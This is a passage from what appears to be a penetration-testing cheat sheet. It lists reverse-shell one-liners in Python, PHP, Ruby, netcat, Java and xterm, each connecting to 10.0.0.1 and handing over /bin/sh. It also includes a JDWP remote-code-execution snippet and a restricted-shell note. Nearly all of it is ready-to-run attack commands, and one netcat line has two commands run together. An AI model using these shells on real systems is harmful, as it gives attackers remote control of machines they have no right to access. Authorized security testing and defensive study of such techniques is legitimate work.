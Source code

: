 ```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP <a id="php"></a>

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby <a id="ruby"></a>

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Netcat without -e \#1 <a id="netcat-without-e-1"></a>

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f
```

#### Netcat without -e \#2 <a id="netcat-without-e-2"></a>

```bash
nc localhost 443 | /bin/sh | nc localhost 444telnet localhost 443 | /bin/sh | telnet localhost 444
```

#### Java <a id="java"></a>

```bash
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();
```

#### XTerm <a id="xterm"></a>

```bash
xterm -display 10.0.0.1:1
```

### JDWP RCE <a id="jdwp-rce"></a>

```java
print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("whoami").getInputStream())).readLine())
```

### Working with Restricted Shells <a id="working-with-restricted-shells"></a>

```bash
# rare cases
ssh bill@localhost ls -l /tmp
```
